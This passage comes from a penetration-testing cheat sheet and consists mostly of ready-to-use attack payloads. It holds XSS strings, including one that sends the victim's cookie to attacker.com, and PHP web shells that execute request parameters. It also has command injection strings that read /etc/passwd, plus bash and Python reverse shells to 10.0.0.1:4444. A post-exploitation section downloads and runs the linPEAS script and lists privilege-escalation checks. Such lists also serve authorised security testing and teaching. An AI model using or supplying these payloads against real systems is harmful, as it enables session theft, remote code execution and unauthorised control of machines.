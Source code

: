 **Cross-Site Scripting (XSS):**
```javascript
// Reflected XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>

// Stored XSS payload
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>

// DOM XSS
javascript:alert('XSS')
```

**Remote Code Execution:**
```bash
# PHP code injection
<?php system($_GET['cmd']); ?>
<?php exec($_POST['cmd']); ?>

# Command injection
; cat /etc/passwd
| whoami
& ping -c 4 attacker.com

# Reverse shell payloads
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 5. **Post-Exploitation**

#### Privilege escalation:
```bash
# Linux privilege escalation
# Enumeration scripts
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Manual checks
sudo -l                    # Sudo permissions
find / -perm -4000 2>/dev/null  # SUID binaries
cat /etc/crontab          # Cron jobs
ps aux                    # Running processes

# Common privilege escalation vectors
# - Kernel exploits
# - SUID binaries
# - Sudo misconfigurations
# - Cron jobs with weak permissions
# - Services running as root
```
